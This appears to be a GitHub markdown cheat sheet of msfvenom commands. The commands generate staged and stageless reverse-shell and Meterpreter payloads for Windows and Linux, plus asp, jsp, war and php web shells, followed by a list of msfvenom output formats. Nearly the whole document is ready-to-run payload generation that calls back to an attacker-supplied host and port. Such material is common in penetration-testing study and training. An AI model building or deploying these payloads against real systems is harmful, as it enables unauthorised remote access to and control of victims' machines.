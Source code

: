 [msfvenom payload shorcuts](#msfvenom-payload-shorcuts)  

[msfvenom output formats](#msfvenom-output-formats)  

## msfvenom payload shorcuts
### Non-Meterpreter Binaries
Staged Payloads for Windows
```
x86	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
Stageless Payloads for Windows
```
x86	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
Staged Payloads for Linux
```
x86	msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
Stageless Payloads for Linux
```
x86	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
Non-Meterpreter Web Payloads
```
asp	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
### Meterpreter Binaries
Staged Payloads for Windows
```
x86	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
Stageless Payloads for Windows
```
x86	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```
Staged Payloads for Linux
```
x86	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
Stageless Payloads for Linux
```
x86	msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
*sourced from https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/*  
---


## msfvenom output formats
```
msfvenom --list formats
```

### Framework Executable Formats [--format <value>]
===============================================

    Name
    ----
    asp
    aspx
    aspx-exe
    axis2
    dll
    elf
    elf-so
    exe
    exe-only
    exe-service
    exe-small
    hta-psh
    jar
    jsp
    loop-vbs
    macho
    msi
    msi-nouac
    osx-app
    psh
    psh-cmd
    psh-net
    psh-reflection
    python-reflection
    vba
    vba-exe
    vba-psh
    vbs
    war

### Framework Transform Formats [--format <value>]
==============================================

    Name
    ----
    base32
    base64
    bash
    c
    csharp
    dw
    dword
    hex
    java
    js_be
    js_le
    num
    perl
    pl
    powershell
    ps1
    py
    python
    raw
    rb
    ruby
    sh
    vbapplication
    vbscript
